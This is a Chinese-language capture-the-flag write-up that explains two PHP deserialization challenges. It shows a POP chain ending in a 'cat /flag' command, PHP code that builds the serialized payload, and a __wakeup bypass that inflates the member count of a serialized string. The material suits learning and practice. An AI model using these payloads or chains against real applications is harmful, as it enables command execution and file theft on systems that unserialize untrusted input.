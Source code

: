 发现Ha中调用Love(),该函数在__destruct中，

##### pop链为

Ha->__destruct->Love  到 Rd->__call->var1 到 Er->__set->$value($this->flag)

##### 其他条件

$arg[0]需要一个键名POC，且值为"1111"

start2="11111"

flag的值更改为文件查看命令cat /flag

##### 将原本的代码复制下来之后，在后面加上

直接在类里对flag和start2赋值

$a=new Ha();

$a->start1=new Rd();

$a->start=['POC'=>'1111'];

$a->start1->cl=new Er();

echo urlencod(serialize($a));

将得到的字符串赋值给Ha_rde_r，通过get方法上传

#### ez_ez_unserialize

看到题目中，construct函数让x类中的x赋值，wakeup让x重新赋值为_FILE_

所以我们需要绕过wakeup函数，

而一个经典的绕过方法便是序列化的中的成员数大于实际成员数

先创建一个含x的实例，将实例中的x赋值为flllllag.php

进行序列化得到结果

O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}

之后将其修改为

O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}

get传参即可